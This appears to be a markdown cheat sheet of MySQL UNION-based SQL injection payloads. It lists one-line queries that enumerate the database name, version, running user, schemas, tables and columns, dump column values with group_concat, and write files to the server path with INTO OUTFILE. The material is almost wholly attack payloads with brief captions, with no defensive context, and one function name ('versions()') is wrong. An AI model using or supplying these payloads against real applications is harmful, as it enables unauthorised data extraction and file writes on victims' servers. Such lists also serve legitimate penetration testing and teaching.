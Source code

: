 
---

```mysql
'user input' UNION SELECT column1, column2, columnN, database()
```
Enumerate database name.

---

```mysql
'user input' UNION SELECT column1, column2, columnN, versions()
```
Enumerate database version.

---

```mysql
'user input' UNION SELECT column1, column2, columnN, user()
```
Enumerate the user running the database.

---

```mysql
'user input' UNION SELECT schema_name FROM information_schema.schemata -- -
```
Enumerate alternatives databases.

---

```mysql
'user input' UNION SELECT table_name FROM information_schema.tables WHERE table_schema="database name"-- -
```
Enumerate tables.

--- 

```mysql
'user input' UNION SELECT column_name FROM information_schema.columns WHERE table_schema="database name" AND table_name="table name"
```
Enumerate columns.

--- 

```mysql
'user input' UNION SELECT group_concat(column1,0x3a,column2) FROM <TABLE_NAME> -- -
```
Enumerate values of specific columns.

---

```mysql
'user input' UNION SELECT "content" INTO OUTFILE "/path/filename.txt"-- -
```
Save content in system path.

